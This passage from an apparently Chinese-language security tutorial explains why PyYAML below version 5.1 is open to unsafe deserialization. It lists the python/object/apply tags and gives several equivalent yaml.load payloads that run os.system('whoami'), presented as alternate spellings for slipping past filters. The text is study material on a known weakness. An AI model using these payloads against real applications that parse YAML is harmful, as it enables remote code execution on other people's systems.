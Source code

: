 
所以对于一个 `!!x x` 来说，类型转换执行的伪代码就是：`find_function("x")(x)`。这个也很好理解。



### 高级类型转换

在理解了基础的类型转换之后，查看源码可以发现还有一个 `add_multi_constructor` 函数，一共有 5 个：

- `python/name`
- `python/module`
- `python/object`
- `python/object/new`
- `python/object/apply`

从上面那张图可以看到，这几个都可以引入新的模块。这就是 PyYAML 存在反序列化的本质原因。

## 攻击思路

截止目前（2022），PyYAML 的利用划分以版本 5.1 为界限，<5.1 版本的利用非常简单，就先介绍一下；>5.1 的利用很相似，但需要稍微做一些解释，所以放在后面。

下面按照利用难度从易到难排列。

### 版本小于 5.1

下面以 `4.2b4` 为例。

#### 关键方法

<5.1 版本中提供了几个方法用于解析 YAML：

1. `yaml.load`：加载单个 YAML 配置
2. `yaml.load_all`：加载多个 YAML 配置

以上这两种均可以通过 `Loader` 参数来指定加载器。一共有三个加载器，加载器后面对应了三个不同的构造器：

1. `BaseConstructor`：最最基础的构造器，不支持强制类型转换
2. `SafeConstructor`：集成 BaseConstructor，强制类型转换和 YAML 规范保持一致，没有魔改
3. `Constructor`：在 YAML 规范上新增了很多强制类型转换

`Constructor` 这个是最危险的构造器，却是默认使用的构造器。

#### python/object/apply

对应的函数是 `construct_python_object_apply`，最终在 `make_python_instance` 中引入了模块中的方法并执行。

`python/object/apply` 要求参数必须用一个列表的形式提供，所以以下 payload 都是等价的，但是写法不一样，可以用来绕过：

```
yaml.load('exp: !!python/object/apply:os.system ["whoami"]')

yaml.load("exp: !!python/object/apply:os.system ['whoami']")

# 引号当然不是必须的
yaml.load("exp: !!python/object/apply:os.system [whoami]")

yaml.load("""
exp: !!python/object/apply:os.system
- whoami
""")

yaml.load("""
exp: !!python/object/apply:os.system
  args: ["whoami"]
""")

# command 是 os.system 的参数名
yaml.load("""
exp: !!python/object/apply:os.system
  kwds: {"command": "whoami"}
```
